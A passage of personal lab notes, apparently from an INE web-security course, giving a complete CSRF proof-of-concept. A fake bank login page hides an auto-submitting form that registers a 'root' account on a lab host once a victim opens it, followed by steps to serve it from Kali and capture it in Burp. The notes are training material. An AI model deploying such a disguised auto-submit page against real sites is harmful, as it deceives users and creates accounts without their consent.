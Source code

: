Save the following HTML page as bank-login.html:

HTML Code:
```html

<html>
    <head>
        <title>Bank Login Page</title>
    </head>
    <body>
        <div align="center">
            <h1>Bank Login Page</h1>
            <form>
                <input type="text" name="username" value="" placeholder="Username"><br />
                <input type="password" name="password" value="" placeholder="Password"><br />
                <input type="submit" value="Login" />
            </form>
        </div>
        <!-- Form target frame to avoid redirection -->
        <iframe id="iframe" name="my_iframe" style="position: absolute;width:0;height:0;border:0;"></iframe>
        <!-- CSRF - Register new user -->
        <form name="csrf" id="csrf" target="my_iframe" action="http://demo.ine.local/index.php?page=register.php" method="POST">
            <input type="hidden" name="csrf-token" value="">
            <input type="hidden" name="username" value="root">
            <input type="hidden" name="password" value="root_passwd">
            <input type="hidden" name="confirm_password" value="root_passwd">
            <input type="hidden" name="my_signature" value="nothing interesting">
            <input type="hidden" name="register-php-submit-button" value="Create Account">
        </form>
        <!-- Send POST request -->
        <script>
            document.csrf.submit();
        </script>
    </body>
</html>

```

- The above code creates a simple login form and a hidden form that sends the account creation request once this page loads. 
- So a victim just needs to open this page and the rest follows. 

```
open the page in a python server in the attacker kali machine
enter a fake username and password
grab with burp
```

> [!Opinion] Very weak and boring lab



# Other Common Web Attacks
